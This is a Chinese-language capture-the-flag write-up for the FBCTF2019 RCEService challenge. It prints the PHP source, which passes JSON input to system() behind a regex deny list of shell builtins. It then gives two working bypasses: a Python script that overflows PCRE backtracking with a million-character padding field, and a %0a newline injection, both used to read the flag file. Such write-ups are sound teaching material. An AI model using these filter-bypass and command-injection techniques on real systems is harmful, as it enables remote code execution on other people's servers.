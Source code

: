 ## [FBCTF2019]RCEService

新格式：**?cmd={"cmd":"ls"}**

有点像字典。

<html>
  <body>

    <h1>Web Adminstration Interface</h1>

Hacking attempt detected<br/><br/>
    <form>
      Enter command as JSON:
      <input name="cmd" />
    </form>
  </body>
</html>



<html>
  <body>

换一个试试：有个index.php

在试试能不能获取源码，不能

    <h1>Web Adminstration Interface</h1>

Attempting to run command:<br/>index.php
<br/><br/>
    <form>
      Enter command as JSON:
      <input name="cmd" />
    </form>
  </body>
</html>

所以直接拿到源码：

```
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

这里面讲的很清楚，使用脚本回溯次数超出了限制，让正则失效：

```
1 import requests
2 
3 payload = '{"cmd":"/bin/cat /home/rceservice/flag","test":"' + "a"*(1000000) + '"}'
4 res = requests.post("http://ad66432f-4628-41f6-8190-d9b9c247904c.node3.buuoj.cn/", data={"cmd":payload})
5 #print(payload)
6 print(res.text)
```

还有另一种解法，这种解法比较容易。

```
preg_match()函数只能匹配第一行数据，可以使用换行符%0a绕过，pyload: ?cmd={%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}
```

 
